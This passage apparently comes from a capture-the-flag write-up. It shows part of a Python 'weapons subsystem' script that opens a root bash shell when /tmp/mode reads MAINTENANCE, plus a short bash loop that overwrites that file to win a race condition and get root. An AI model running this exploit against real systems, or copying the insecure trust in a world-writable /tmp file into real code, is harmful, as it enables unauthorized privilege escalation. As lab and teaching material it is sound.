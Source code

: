 ```python
    else:
        print('FAILED')

    success = weapons_subsystem.initialize('missiles')
    if success:
        initialization_count += 1
        print('SUCCESS')
    else:
        print('FAILED')

    if initialization_count == 0:
        print("NO COMPONENTS LOADED CORRECTLY")
    elif initialization_count < expected_initializations:
        print(f"LOADING FAILED FOR {expected_initializations - initialization_count} MODULES.")
    else:
        print("ALL COMPONENTS LOADED CORRECTLY")

    print("Waiting for MAINTENANCE MODE ..")

    with open("/tmp/mode", "r") as f:
        mode = f.read().strip()

    if mode == "COMBAT":
        print("No weapon system detected")
        print("Cannot initiate combat mode")
    elif mode == "IDLE":
        print("System in stand-by.")
        return
    elif mode == "MAINTENANCE":
        print("System in maintenance mode.")
        print("Waiting for command.")
        subprocess.call(["/bin/bash"])
    else:
        print("Unknown mode detected.")


if __name__ == "__main__":
    main()
```

which is vulnerable to a race condition on open().

because as you can see the function is ran two times, one at the start of the file to input the default setting and one at the end to get the mode.

altough this python file is fast in execution there is a small time frame where we can exploit this race condition, which will eventually work after a bit of luck

here's the simple bash script i used to exploit it:

```bash
#!/bin/bash

while true; do
  echo "MAINTENANCE" > /tmp/mode
done
```
we can start this in a new process, and eventually after two or three times it worked and i got root!
